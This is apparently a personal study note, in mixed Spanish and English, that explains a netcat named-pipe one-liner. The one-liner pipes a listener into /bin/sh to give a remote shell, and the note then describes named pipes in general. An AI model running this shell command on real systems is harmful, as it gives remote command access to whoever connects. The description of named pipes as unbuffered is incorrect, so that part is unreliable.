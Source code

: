 ```yaml
---
{"dg-publish":true,"permalink":"/named-pipe/","hide":"true"}
---
```



```shell
mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```

1. El comando `mkfifo /tmp/f` crea un named pipe (tubería con nombre) en el directorio `/tmp` y lo llama `f`.
2. then starts a netcat listener
3. connects the **input of the listener to the output of the** named **pipe** `nc -lvnp <PORT> < /tmp/f`
4. The output of the netcat listener (i.e. the commands we send) then gets piped directly into `sh` `| /bin/sh`
5. ending the stderr output stream into stdout, `2>&1`
6. and sending stdout itself into the input of the named pipe, thus completing the circle. `/bin/sh >/tmp/f`
![Pasted image 20240402184247.png](/img/user/Pasted%20image%2020240402184247.png)


Aquí te explico paso a paso lo que hace:

- `mkfifo`: Esta es la orden que le indica al sistema operativo que quieres crear un named pipe.
- `/tmp/f`: Esta es la ruta y el nombre del named pipe que se creará.
    - `/tmp`: Es un directorio temporal común en sistemas operativos Unix-like donde se almacenan archivos temporales.
    - `f`: Es el nombre arbitrario que se le asigna al named pipe. Puedes elegir cualquier nombre que te convenga.

Un named pipe funciona como un canal de comunicación unidireccional entre dos procesos. Un proceso puede escribir datos en el named pipe y otro proceso diferente puede leer esos mismos datos.

**Algunas características importantes de los named pipes:**

- **Unidireccional:** Los datos solo fluyen en una dirección, del proceso que escribe (productor) al proceso que lee (consumidor).
- **Sin búfer:** Los datos se escriben directamente en el named pipe y se leen inmediatamente por el otro proceso. No hay almacenamiento intermedio, lo que los hace adecuados para flujos de datos continuos.
- **Con nombre:** A diferencia de las tuberías estándar (sin nombre) creadas con el comando `pipe` en la terminal, los named pipes se crean con un nombre específico. Esto permite que múltiples procesos puedan acceder al mismo named pipe si conocen su nombre.